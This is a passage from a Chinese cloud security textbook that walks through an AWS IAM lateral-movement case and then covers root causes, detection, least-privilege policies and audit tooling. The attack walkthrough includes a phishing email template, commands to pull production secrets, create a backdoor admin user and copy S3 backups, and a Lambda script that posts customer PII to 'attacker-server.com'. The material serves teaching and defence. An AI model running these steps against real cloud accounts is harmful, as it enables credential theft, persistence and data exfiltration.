




## 12.3.4 案例四：IAM权限配置不当导致的横向移动

IAM（Identity and Access Management）是云安全的基石。当IAM配置不当时，一个低权限的初始访问点可以演变为对整个云环境的全面控制。本案例将深入剖析一个真实的横向移动攻击链——从一个开发人员的钓鱼凭证开始，逐步扩展到生产数据库、密钥管理系统，甚至跨账户访问。

### IAM安全基础理论

#### 什么是IAM

IAM是云服务提供商提供的身份与访问管理框架，负责回答三个核心问题：

| 核心问题 | 对应概念 | 说明 |
|---------|---------|------|
| **你是谁？** | 身份（Identity） | 用户、角色、服务账户、联邦身份 |
| **你能做什么？** | 授权（Authorization） | 策略（Policy）定义的允许/拒绝操作 |
| **你从哪里来？** | 认证（Authentication） | 密码、MFA、API密钥、临时凭证 |

#### 最小权限原则（Principle of Least Privilege）

最小权限原则要求每个身份仅拥有完成其工作所需的最低限度权限。这不是一个建议，而是安全架构的基本法则。违反最小权限原则的后果在云环境中被放大，因为：

- **API的可编程性**：攻击者可以编写脚本批量调用API，快速扩大战果
- **权限的组合效应**：单独看每个权限可能无害，但组合起来可能造成灾难性后果
- **云资源的互联性**：一个资源的访问权限可能隐含对其他资源的间接访问

#### IAM策略评估逻辑

理解AWS IAM策略的评估流程对于安全配置至关重要：



关键规则：
1. **默认拒绝**：未明确允许的操作默认被拒绝
2. **显式Deny优先**：即使有Allow，显式Deny始终覆盖
3. **条件评估**：Allow策略中的条件（Condition）必须全部满足
4. **策略合并**：身份策略、资源策略、权限边界、SCP同时生效时取交集

#### 权限边界（Permission Boundary）

权限边界是一个高级IAM特性，它定义了一个身份可以拥有的最大权限上限。即使身份策略授予了 `*` 权限，权限边界也会限制实际生效的权限：



### 完整攻击场景还原

#### 场景背景

**目标公司**：某金融科技公司，使用AWS作为主要云平台，拥有200+开发人员，运行多个微服务处理支付交易。

**环境架构**：

| 账户 | 用途 | 关键资源 |
|------|------|---------|
| Development（dev-xxxx） | 开发环境 | 开发数据库、测试S3桶、Lambda函数 |
| Staging（stg-xxxx） | 预发布环境 | 预发布数据库、配置存储 |
| Production（prod-xxxx） | 生产环境 | 生产数据库、支付系统、Secrets Manager |
| Security（sec-xxxx） | 安全账户 | CloudTrail、GuardDuty、集中日志 |

**安全现状问题**：
- 开发人员账户被授予 `AdministratorAccess` 托管策略（"为了方便开发"）
- 没有使用权限边界限制最大权限
- 生产环境密钥存储在Secrets Manager中，但开发账户有读取权限
- CloudTrail日志未设置实时告警
- 未启用AWS Organizations的SCP控制

#### 阶段一：初始访问——钓鱼获取凭证

攻击者通过以下步骤获取了开发人员小李的AWS控制台凭证：

**1. 侦察阶段**

攻击者通过LinkedIn和GitHub确定了目标公司使用AWS，找到了几位开发人员的身份信息。在GitHub上发现了一个公开的仓库，其中包含 `aws-exports.js` 配置文件，泄露了Cognito User Pool ID和Identity Pool ID。

**2. 钓鱼攻击**

```text
From: IT-Support@company-internal.com  (伪造域名)
To: xiaoli@company.com
Subject: AWS Console 密码过期通知 - 请立即更新

尊敬的小李：

您的AWS控制台密码将在24小时内过期。为避免影响开发工作，
请点击以下链接立即更新密码：

[更新密码] https://aws-console.company-internal.com/reset

IT运维团队
```

小李点击链接后被重定向到一个仿真的AWS登录页面，输入了用户名和密码。攻击者通过Evilginx2中间人框架同时获取了MFA令牌。

**3. 凭证验证**

```bash
# 攻击者使用获取的凭证配置AWS CLI
aws configure
# AWS Access Key ID: YOUR_AWS_KEY_ID
# AWS Secret Access Key: YOUR_AWS_SECRET_KEY
# Default region: ap-southeast-1

# 验证身份
aws sts get-caller-identity
```

输出：

```json
{
    "UserId": "AIDACKCEVSQ6C2EXAMPLE",
    "Account": "123456789012",
    "Arn": "arn:aws:iam::123456789012:user/xiaoli"
}
```

#### 阶段二：权限枚举——发现过度授权

攻击者需要了解当前身份拥有的权限范围。这不是简单的 `aws sts get-caller-identity` 能完成的，需要系统性枚举。

**1. 检查附加策略**

```bash
# 列出用户附加的托管策略
aws iam list-attached-user-policies --user-name xiaoli

# 输出显示附加了 AdministratorAccess
# {
#     "AttachedPolicies": [
#         {
#             "PolicyName": "AdministratorAccess",
#             "PolicyArn": "arn:aws:iam::aws:policy/AdministratorAccess"
#         }
#     ]
# }
```

这是一个危险信号——开发人员不应该拥有管理员权限。

**2. 使用自动化工具枚举**

```bash
# 安装 enumerate-iam 工具
git clone https://github.com/andresriancho/enumerate-iam.git
cd enumerate-iam
pip install -r requirements.txt

# 进行权限枚举（会尝试调用大量API来确定有效权限）
python enumerate_iam.py \
    --access-key YOUR_AWS_KEY_ID \
    --secret-key YOUR_AWS_SECRET_KEY \
    --region ap-southeast-1
```

**3. 手动枚举关键服务**

```bash
# 检查S3访问权限
aws s3 ls

# 检查Secrets Manager
aws secretsmanager list-secrets

# 检查Lambda函数
aws lambda list-functions

# 检查RDS实例
aws rds describe-db-instances

# 检查EC2实例
aws ec2 describe-instances

# 检查IAM用户和角色
aws iam list-users
aws iam list-roles

# 检查KMS密钥
aws kms list-keys
```

**枚举结果汇总**：

| 服务 | 可访问资源 | 风险等级 |
|------|-----------|---------|
| S3 | 所有Bucket，包括生产备份 | 🔴 严重 |
| Secrets Manager | 所有密钥，包括生产数据库凭证 | 🔴 严重 |
| Lambda | 可调用任意函数 | 🟠 高 |
| IAM | 可列出所有用户、角色、策略 | 🟡 中 |
| KMS | 可列出密钥（但不能解密） | 🟡 中 |
| RDS | 可查看实例信息（含endpoint） | 🟡 中 |
| EC2 | 可查看所有实例 | 🟢 低 |

#### 阶段三：横向移动——从开发到生产

**1. 获取生产数据库凭证**

```bash
# 从Secrets Manager获取生产数据库密码
aws secretsmanager get-secret-value \
    --secret-id prod/database/master-credentials \
    --version-stage AWSCURRENT

# 输出：
# {
#     "Name": "prod/database/master-credentials",
#     "SecretString": "{\"username\":\"admin\",\"password\":\"Pr0d$ecureP@ss2024!\",\"host\":\"prod-db.cluster-xxxx.ap-southeast-1.rds.amazonaws.com\",\"port\":\"3306\",\"database\":\"payment_system\"}"
# }
```

**2. 建立持久化访问**

```bash
# 创建新的IAM访问密钥（持久化）
aws iam create-access-key --user-name xiaoli

# 创建新的IAM用户作为后门
aws iam create-user --user-name svc-backup-worker
aws iam attach-user-policy \
    --user-name svc-backup-worker \
    --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
aws iam create-access-key --user-name svc-backup-worker
```

**3. 提取S3中的敏感数据**

```bash
# 列出生产备份桶
aws s3 ls s3://prod-backup-bucket/

# 下载数据库备份
aws s3 cp s3://prod-backup-bucket/db-backups/2024/ ./stolen-data/ --recursive

# 下载应用配置
aws s3 cp s3://prod-config-bucket/ ./stolen-config/ --recursive
```

**4. 利用Lambda进行数据外传**

```bash
# 创建一个Lambda函数用于数据外传
cat > exfil_function.py << 'EOF'
import boto3
import json
import urllib3

def lambda_handler(event, context):
    s3 = boto3.client('s3')
    http = urllib3.PoolManager()
    
    # 读取敏感数据
    response = s3.get_object(
        Bucket='prod-sensitive-data',
        Key='customer-pii/export.csv'
    )
    data = response['Body'].read().decode('utf-8')
    
    # 外传到攻击者控制的服务器
    http.request(
        'POST',
        'https://attacker-server.com/exfil',
        body=data.encode('utf-8'),
        headers={'Content-Type': 'text/csv'}
    )
    
    return {'statusCode': 200}
EOF

# 部署并执行
zip function.zip exfil_function.py
aws lambda create-function \
    --function-name data-export-worker \
    --runtime python3.12 \
    --role arn:aws:iam::123456789012:role/lambda-full-access \
    --handler exfil_function.lambda_handler \
    --zip-file fileb://function.zip

aws lambda invoke --function-name data-export-worker output.json
```

**5. 跨账户访问尝试**

```bash
# 列出可用的跨账户角色
aws iam list-roles --query 'Roles[?contains(RoleName, `cross`) || contains(RoleName, `admin`)]'

# 尝试assume到安全账户
aws sts assume-role \
    --role-arn arn:aws:iam::999888777666:role/OrganizationAccountAccessRole \
    --role-session-name attacker-session \
    --external-id security-account-ext-id
```

### 根因深度分析

#### 技术层面根因

**1. 过度授权（Over-Privileged Access）**

这是本案例的核心问题。开发人员被授予了 `AdministratorAccess` 策略，该策略内容为：

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": "*",
            "Resource": "*"
        }
    ]
}
```

这等于给了开发人员对整个AWS账户的完全控制权。常见的"为了方便"而授予管理员权限的做法，是云安全中最大的反模式。

**2. 缺乏环境隔离**

开发账户可以直接访问生产环境的Secrets Manager，违反了环境隔离原则。正确的做法是使用独立的AWS账户并通过跨账户角色访问，而不是在同一账户内用标签区分环境。

**3. 密钥管理不当**

生产数据库凭证以明文存储在Secrets Manager中，且开发人员有读取权限。应该：
- 使用KMS加密，并限制KMS解密权限
- 使用Secrets Manager的资源策略限制访问
- 数据库凭证应使用IAM认证而非静态密码

**4. 缺乏检测机制**

攻击者在横向移动过程中执行了大量异常操作（列出所有密钥、创建新用户、调用Lambda），但这些操作没有触发任何告警。

#### 组织层面根因

| 根因类别 | 具体问题 | 影响 |
|---------|---------|------|
| 安全文化 | "功能优先，安全靠后"的心态 | 权限管理松散 |
| 流程缺失 | 无IAM权限审批流程 | 权限随意授予 |
| 技术债务 | 早期快速扩张遗留的宽松权限 | 大量过度授权账户 |
| 监控盲区 | 无实时IAM行为分析 | 攻击行为不被发现 |

### 检测与监控策略

#### CloudTrail日志分析

CloudTrail是AWS的安全审计基石。以下是检测IAM横向移动的关键日志分析：

**1. 异常API调用检测**

```python
import boto3
from datetime import datetime, timedelta

cloudtrail = boto3.client('cloudtrail')

# 高风险API调用列表
HIGH_RISK_EVENTS = [
    'CreateAccessKey',
    'CreateUser',
    'AttachUserPolicy',
    'AttachRolePolicy',
    'PutRolePolicy',
    'CreateLoginProfile',
    'UpdateLoginProfile',
    'GetSecretValue',
    'AssumeRole',
    'CreateRole',
    'PassRole'
]

def detect_suspicious_activity(hours=24):
    """检测过去N小时内的可疑IAM活动"""
    end_time = datetime.utcnow()
    start_time = end_time - timedelta(hours=hours)
    
    findings = []
    
    for event_name in HIGH_RISK_EVENTS:
        response = cloudtrail.lookup_events(
            LookupAttributes=[
                {
                    'AttributeKey': 'EventName',
                    'AttributeValue': event_name
                }
            ],
            StartTime=start_time,
            EndTime=end_time,
            MaxResults=50
        )
        
        for event in response['Events']:
            event_detail = json.loads(event['CloudTrailEvent'])
            
            # 检查是否为异常调用
            if is_anomalous(event_detail):
                findings.append({
                    'event': event_name,
                    'user': event_detail.get('userIdentity', {}).get('userName'),
                    'source_ip': event_detail.get('sourceIPAddress'),
                    'time': event_detail.get('eventTime'),
                    'resources': event_detail.get('resources', [])
                })
    
    return findings

def is_anomalous(event):
    """判断是否为异常事件"""
    # 基于多个维度判断
    user = event.get('userIdentity', {}).get('userName', '')
    source_ip = event.get('sourceIPAddress', '')
    user_agent = event.get('userAgent', '')
    time = event.get('eventTime', '')
    
    # 规则1：非常用IP地址
    if source_ip not in get_user_known_ips(user):
        return True
    
    # 规则2：非常用User-Agent
    if 'aws-cli' in user_agent and not is_automation_user(user):
        return True
    
    # 规则3：非工作时间的操作
    if is_outside_business_hours(time):
        return True
    
    return False
```

**2. 实时告警配置**

```json
{
    "source": ["aws.iam"],
    "detail-type": ["AWS API Call via CloudTrail"],
    "detail": {
        "eventSource": ["iam.amazonaws.com"],
        "eventName": [
            "CreateAccessKey",
            "CreateUser",
            "AttachUserPolicy",
            "PutRolePolicy",
            "CreateLoginProfile"
        ]
    }
}
```

将此规则配置到Amazon EventBridge中，触发SNS通知或Lambda函数进行自动化响应。

#### GuardDuty增强检测

```bash
# 启用GuardDuty的IAM异常检测
aws guardduty create-detector \
    --enable \
    --finding-frequency FIFTEEN_MINUTES

# 配置S3保护
aws guardduty update-detector \
    --detector-id <detector-id> \
    --data-sources '{
        "S3Logs": {"Enable": true},
        "Kubernetes": {"AuditLogs": {"Enable": true}},
        "MalwareProtection": {"ScanEc2InstanceWithFindings": {"EbsVolumes": {"Enable": true}}}
    }'
```

GuardDuty可以检测以下IAM相关威胁：
- **UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration**：凭证被从非常用位置使用
- **Policy:IAMUser/RootCredentialUsage**：根账户或高权限用户被使用
- **Recon:IAMUser/NetworkPortProbeUnusual**：IAM用户进行异常端口扫描

### 全面修复方案

#### 一、IAM策略重构

**1. 开发人员专用策略（最小权限）**

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "AllowDevServices",
            "Effect": "Allow",
            "Action": [
                "s3:GetObject",
                "s3:PutObject",
                "s3:ListBucket"
            ],
            "Resource": [
                "arn:aws:s3:::dev-*",
                "arn:aws:s3:::dev-*/*"
            ]
        },
        {
            "Sid": "AllowLambdaDev",
            "Effect": "Allow",
            "Action": [
                "lambda:CreateFunction",
                "lambda:UpdateFunctionCode",
                "lambda:InvokeFunction",
                "lambda:GetFunction",
                "lambda:ListFunctions",
                "lambda:DeleteFunction"
            ],
            "Resource": "arn:aws:lambda:*:*:function:dev-*"
        },
        {
            "Sid": "AllowCloudWatch",
            "Effect": "Allow",
            "Action": [
                "logs:CreateLogGroup",
                "logs:CreateLogStream",
                "logs:PutLogEvents",
                "logs:DescribeLogGroups",
                "logs:DescribeLogStreams"
            ],
            "Resource": "arn:aws:logs:*:*:log-group:/dev/*"
        },
        {
            "Sid": "DenyIAMChanges",
            "Effect": "Deny",
            "Action": [
                "iam:CreateUser",
                "iam:DeleteUser",
                "iam:CreateRole",
                "iam:DeleteRole",
                "iam:AttachUserPolicy",
                "iam:AttachRolePolicy",
                "iam:PutUserPolicy",
                "iam:PutRolePolicy",
                "iam:CreateAccessKey",
                "iam:DeleteAccessKey"
            ],
            "Resource": "*"
        },
        {
            "Sid": "DenyProdAccess",
            "Effect": "Deny",
            "Action": "*",
            "Resource": "*",
            "Condition": {
                "StringEquals": {
                    "aws:ResourceTag/Environment": "production"
                }
            }
        },
        {
            "Sid": "DenySecurityServices",
            "Effect": "Deny",
            "Action": [
                "secretsmanager:GetSecretValue",
                "kms:Decrypt",
                "kms:CreateGrant",
                "organizations:*",
                "account:*",
                "sts:AssumeRole"
            ],
            "Resource": "*"
        }
    ]
}
```

**2. 权限边界（限制最大权限）**

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "AllowDevServices",
            "Effect": "Allow",
            "Action": [
                "s3:*",
                "lambda:*",
                "logs:*",
                "cloudwatch:*",
                "dynamodb:*",
                "sqs:*",
                "sns:*",
                "ec2:Describe*",
                "ec2:RunInstances",
                "ec2:TerminateInstances",
                "ec2:StartInstances",
                "ec2:StopInstances"
            ],
            "Resource": "*",
            "Condition": {
                "StringEquals": {
                    "aws:RequestedRegion": [
                        "ap-southeast-1",
                        "us-east-1"
                    ]
                }
            }
        },
        {
            "Sid": "DenyDangerousActions",
            "Effect": "Deny",
            "Action": [
                "iam:*",
                "organizations:*",
                "account:*",
                "sts:AssumeRole",
                "sts:GetFederationToken",
                "cloudtrail:*",
                "config:*",
                "kms:CreateKey",
                "kms:ScheduleKeyDeletion",
                "kms:DisableKey",
                "secretsmanager:GetSecretValue",
                "secretsmanager:PutSecretValue"
            ],
            "Resource": "*"
        }
    ]
}
```

**3. Secrets Manager资源策略**

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "AllowProdAppOnly",
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::123456789012:role/prod-app-role"
            },
            "Action": "secretsmanager:GetSecretValue",
            "Resource": "*",
            "Condition": {
                "StringEquals": {
                    "aws:ResourceTag/Environment": "production"
                }
            }
        },
        {
            "Sid": "DenyNonProdAccounts",
            "Effect": "Deny",
            "Principal": "*",
            "Action": "secretsmanager:GetSecretValue",
            "Resource": "*",
            "Condition": {
                "StringNotEquals": {
                    "aws:PrincipalOrgID": "o-xxxxxxxxxx"
                }
            }
        }
    ]
}
```

#### 二、多账户架构设计



**SCP（服务控制策略）示例**：

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "RequireMFA",
            "Effect": "Deny",
            "Action": "*",
            "Resource": "*",
            "Condition": {
                "BoolIfExists": {
                    "aws:MultiFactorAuthPresent": "false"
                },
                "StringNotEquals": {
                    "aws:PrincipalServiceName": [
                        "cloudtrail.amazonaws.com",
                        "config.amazonaws.com"
                    ]
                }
            }
        },
        {
            "Sid": "DenyLeaveOrg",
            "Effect": "Deny",
            "Action": "organizations:LeaveOrganization",
            "Resource": "*"
        },
        {
            "Sid": "DenyCloudTrailChanges",
            "Effect": "Deny",
            "Action": [
                "cloudtrail:StopLogging",
                "cloudtrail:DeleteTrail",
                "cloudtrail:UpdateTrail"
            ],
            "Resource": "*"
        }
    ]
}
```

#### 三、自动化IAM审计

**1. 使用Prowler进行安全评估**

```bash
# 安装Prowler
pip install prowler

# 运行IAM相关检查
prowler aws \
    --checks iam_* \
    --severity critical high \
    --output-format json \
    --output-directory ./audit-results

# 重点关注检查项：
# iam_user_no_policies - 用户不应直接附加策略
# iam_policy_no_administrative_privileges - 策略不应有管理员权限
# iam_root_hardware_mfa - 根账户应启用硬件MFA
# iam_user_mfa_enabled_console - 控制台用户应启用MFA
```

**2. 使用Cloudsplaining分析策略**

```bash
# 安装
pip install cloudsplaining

# 下载账户授权详情
aws iam get-account-authorization-details > account-auth.json

# 分析过度授权
cloudsplaining scan --input-file account-auth.json \
    --exclusions-file exclusions.yml \
    --output ./cloudsplaining-report

# 生成Excel报告
cloudsplaining create-exclusions-file
```

**3. 定期IAM访问审查脚本**

```python
import boto3
from datetime import datetime, timedelta

iam = boto3.client('iam')

def audit_unused_credentials(days_threshold=90):
    """审计超过N天未使用的凭证"""
    cutoff = datetime.utcnow() - timedelta(days=days_threshold)
    findings = []
    
    paginator = iam.get_paginator('list_users')
    for page in paginator.paginate():
        for user in page['Users']:
            username = user['UserName']
            
            # 检查密码使用情况
            if 'PasswordLastUsed' in user:
                last_used = user['PasswordLastUsed'].replace(tzinfo=None)
                if last_used < cutoff:
                    findings.append({
                        'user': username,
                        'type': 'console_password',
                        'last_used': last_used.isoformat(),
                        'recommendation': '禁用未使用的控制台密码'
                    })
            
            # 检查访问密钥
            keys = iam.list_access_keys(UserName=username)
            for key in keys['AccessKeyMetadata']:
                key_id = key['AccessKeyId']
                key_last_used = iam.get_access_key_last_used(AccessKeyId=key_id)
                
                if 'LastUsedDate' in key_last_used['AccessKeyLastUsed']:
                    last_used = key_last_used['AccessKeyLastUsed']['LastUsedDate'].replace(tzinfo=None)
                    if last_used < cutoff:
                        findings.append({
                            'user': username,
                            'type': 'access_key',
                            'key_id': key_id,
                            'last_used': last_used.isoformat(),
                            'recommendation': '停用或删除未使用的访问密钥'
                        })
    
    return findings

def check_overprivileged_users():
    """检查过度授权的用户"""
    findings = []
    
    paginator = iam.get_paginator('list_users')
    for page in paginator.paginate():
        for user in page['Users']:
            username = user['UserName']
            
            # 检查直接附加的策略
            attached = iam.list_attached_user_policies(UserName=username)
            for policy in attached['AttachedPolicies']:
                if 'Admin' in policy['PolicyName'] or 'Full' in policy['PolicyName']:
                    findings.append({
                        'user': username,
                        'policy': policy['PolicyName'],
                        'risk': 'HIGH',
                        'recommendation': '使用最小权限策略替换'
                    })
            
            # 检查内联策略
            inline = iam.list_user_policies(UserName=username)
            for policy_name in inline['PolicyNames']:
                policy_doc = iam.get_user_policy(
                    UserName=username,
                    PolicyName=policy_name
                )
                doc = policy_doc['PolicyDocument']
                
                for stmt in doc.get('Statement', []):
                    if stmt.get('Effect') == 'Allow':
                        actions = stmt.get('Action', [])
                        if isinstance(actions, str):
                            actions = [actions]
                        
                        if '*' in actions or 'iam:*' in actions:
                            findings.append({
                                'user': username,
                                'policy': policy_name,
                                'risk': 'CRITICAL',
                                'recommendation': '内联策略包含通配符权限，需要立即修复'
                            })
    
    return findings
```

### 各云平台IAM安全对比

| 安全维度 | AWS | Azure | GCP |
|---------|-----|-------|-----|
| 身份服务 | IAM | Azure AD / Entra ID | Cloud IAM |
| 最小权限工具 | IAM Access Analyzer | PIM (Privileged Identity Management) | IAM Recommender |
| 权限边界 | Permission Boundary | Azure AD Conditional Access | Organization Policy |
| 组织级控制 | SCP | Management Group Policy | Organization Policy |
| 访问分析 | IAM Access Analyzer | Access Reviews | Policy Analyzer |
| 临时凭证 | STS AssumeRole | Managed Identity | Service Account Impersonation |
| MFA支持 | IAM MFA | Azure AD MFA + Conditional Access | Titan Security Key |
| 审计日志 | CloudTrail | Azure Activity Log + Entra ID Audit | Cloud Audit Logs |
| 异常检测 | GuardDuty | Entra ID Protection | Anomaly Detection |
| 权限推荐 | IAM Access Analyzer | Permissions Management | IAM Recommender |

#### Azure IAM安全等效方案

```bash
# Azure: 使用Azure CLI检查过度授权的角色分配
az role assignment list \
    --all \
    --query "[?roleDefinitionName=='Owner' || roleDefinitionName=='Contributor']" \
    --output table

# 使用PIM启用Just-In-Time访问
az rest --method POST \
    --uri "https://graph.microsoft.com/v1.0/privilegedAccess/aadRoles/assignments" \
    --body '{
        "roleDefinitionId": "<role-id>",
        "principalId": "<user-id>",
        "assignmentState": "Eligible",
        "schedule": {
            "startDateTime": "2024-01-01T00:00:00Z",
            "expiration": {
                "type": "afterDuration",
                "duration": "PT8H"
            }
        }
    }'
```

#### GCP IAM安全等效方案

```bash
# GCP: 使用gcloud检查过度授权
gcloud projects get-iam-policy <project-id> \
    --flatten="bindings[].members" \
    --format="table(bindings.role, bindings.members)" \
    --filter="bindings.role:roles/owner OR bindings.role:roles/editor"

# 使用IAM Recommender获取最小权限建议
gcloud recommender recommendations list \
    --project=<project-id> \
    --recommender=google.iam.policy.Recommender \
    --location=global

# 设置组织策略限制
gcloud resource-manager org-policies set-policy \
    --project=<project-id> policy.yaml
```

### 常见误区与纠正

| 误区 | 正确做法 |
|------|---------|
| "开发需要管理员权限才能方便调试" | 创建自定义策略，仅授予开发所需的最小服务权限 |
| "一个AWS账户就够了" | 使用AWS Organizations进行多账户隔离 |
| "Secrets Manager本身就很安全" | 配合资源策略和KMS限制访问，开发账户不应访问生产密钥 |
| "IAM策略配置一次就够了" | 定期审计，使用IAM Access Analyzer持续监控 |
| "MFA太麻烦影响效率" | 使用硬件密钥或Passkey，平衡安全性和便利性 |
| "Deny策略会破坏现有功能" | 先在staging环境测试，使用Access Advisor确认影响范围 |

### 进阶防御技术

#### IAM Access Analyzer

```bash
# 创建分析器
aws accessanalyzer create-analyzer \
    --analyzer-name org-analyzer \
    --type ORGANIZATION

# 查找外部可访问的资源
aws accessanalyzer list-findings \
    --analyzer-arn arn:aws:access-analyzer:ap-southeast-1:123456789012:analyzer/org-analyzer \
    --filter '{"status": {"eq": ["ACTIVE"]}, "resourceType": {"eq": ["AWS::S3::Bucket", "AWS::IAM::Role"]}}'

# 生成无访问分析报告
aws iam generate-credential-report
aws iam get-credential-report
```

#### CIEM（云基础设施权限管理）

CIEM工具可以提供跨云平台的统一权限视图：

- **AWS IAM Access Analyzer**：原生工具，分析外部访问和未使用权限
- **Ermetic（现为Tenable Cloud Security）**：跨云CIEM平台
- **Wiz**：云安全平台，包含权限分析模块
- **Prisma Cloud**：Palo Alto的云安全平台
- **自建方案**：结合CloudTrail + Athena进行自定义分析

#### 零信任IAM架构



零信任IAM的关键原则：
1. **持续验证**：不仅在登录时验证，每次请求都需要验证
2. **最小权限**：按需授予，用完即收
3. **假设被攻破**：设计时假设已经有攻击者在环境中
4. **微分段**：将权限范围缩到最小，限制横向移动空间

### 经验教训总结

1. **IAM是云安全的第一道防线**：过度授权是云环境中最常见、最危险的安全问题。每一个 `Action: *` 都是攻击者的后门。

2. **环境必须严格隔离**：开发、测试、生产环境应使用独立账户，通过跨账户角色和SCP进行权限控制。不要在同一账户内用标签"假装"隔离。

3. **密钥管理需要纵深防御**：Secrets Manager不是银弹，需要配合KMS加密、资源策略、网络隔离（VPC Endpoint）多层防护。

4. **检测与预防同样重要**：即使预防措施再完善，也需要CloudTrail + GuardDuty + 实时告警构成检测体系，确保攻击行为被及时发现。

5. **定期审计是生存需求**：IAM权限会随时间膨胀（权限蔓延），需要自动化工具定期审计和清理未使用权限。

6. **采用基础设施即代码管理IAM**：所有IAM策略和角色应通过Terraform/CloudFormation管理，纳入版本控制和代码审查，杜绝手动配置。
